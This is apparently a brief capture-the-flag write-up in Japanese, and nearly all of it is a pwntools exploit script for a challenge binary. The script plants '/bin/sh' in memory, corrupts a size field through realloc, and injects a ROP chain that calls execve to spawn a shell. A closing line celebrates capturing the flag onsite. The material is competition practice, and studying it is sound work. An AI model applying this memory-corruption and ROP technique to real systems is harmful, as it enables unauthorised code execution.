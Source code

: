 ```py

# - set "/bin/sh\x00" - #
edit(3, 7, u16(b"h\x00"))
edit(3, 6, u16(b"/s"))
edit(3, 5, u16(b"in"))
edit(3, 4, u16(b"/b"))


realloc(159, 1) # overwrite g_size[644]

# - ROP chain injection - #
syscall_ret = 0x004018e7
pop_rdi_pop4times_ret = 0x0041f48a
pop_rsi_pop3_ret = 0x0042374e
pop_rax_ret = 0x00413563
binsh_addr = 0x42e9b8

rop_chain = p64(pop_rdi_pop4times_ret)
rop_chain += p64(binsh_addr)
rop_chain += p64(0x0) * 4
rop_chain += p64(pop_rsi_pop3_ret)
rop_chain += p64(0x0) * 4
rop_chain += p64(pop_rax_ret)
rop_chain += p64(0x3b)
rop_chain += p64(syscall_ret)

log.info(f'ROP chain: {len(rop_chain)} bytes')

for i in range(len(rop_chain)//2):
	edit(644, i, u16(rop_chain[2*i:2*i+2]))


# Gooooooo!!!!!
io.sendlineafter(b">", b"-1")

io.interactive()
```

オンサイト会場でFLAGを取れて良かった。